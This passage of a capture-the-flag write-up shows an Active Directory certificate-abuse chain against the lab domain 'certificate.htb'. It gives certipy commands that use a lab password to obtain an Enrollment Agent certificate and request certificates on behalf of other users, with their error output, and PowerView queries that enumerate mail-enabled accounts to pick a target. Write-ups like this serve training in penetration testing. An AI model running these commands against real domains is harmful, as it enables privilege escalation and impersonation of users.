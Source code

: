 Obtain the Enrollment Agent certificate.

```shell
certipy req \
    -u Lion.SK@certificate.htb -p '!QAZ2wsx' \
    -dc-ip 10.129.249.89 -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
```

Use the Enrollment Agent certificate to request a certificate on behalf of another user.
I first tried to request a certificate on behalf of the domain administrator, but this doesn't work because the subject email is missing.

```shell
certipy req \
    -u Lion.SK@certificate.htb -p '!QAZ2wsx' \
    -dc-ip 10.129.249.89 -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\Administrator'

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[-] Got error while requesting certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
```

To confirm this, we can query the domain user object and notice that the mail property isn't set, this is why it's failing.

```shell
╭─LDAPS─[DC01.certificate.htb]─[CERTIFICATE\Lion.SK]-[NS:10.129.249.89]
╰─PV ❯ Get-DomainUser -Identity Administrator -Properties mail
```

Instead, we can get a list of target users by querying for user objects that have the mail property set.

```shell
╭─LDAPS─[DC01.certificate.htb]─[CERTIFICATE\Lion.SK]-[NS:10.129.249.89]
╰─PV ❯ Get-DomainUser -Properties mail                        
mail     : saad.m@certificate.htb
mail     : alex.d@certificate.htb
mail     : ryan.k@certificate.htb
mail     : eva.f@certificate.htb
mail     : lion.sk@certificate.htb
mail     : maya.k@certificate.htb
mail     : nya.s@certificate.htb
mail     : aya.w@certificate.htb
mail     : john.c@certificate.htb
mail     : sara.b@certificate.htb
mail     : kai.x@certificate.htb
```

Out of all these users, ryan.k stands out because he is part of the Domain Storage Managers security group, and this group has special permissions related to volume maintenance.
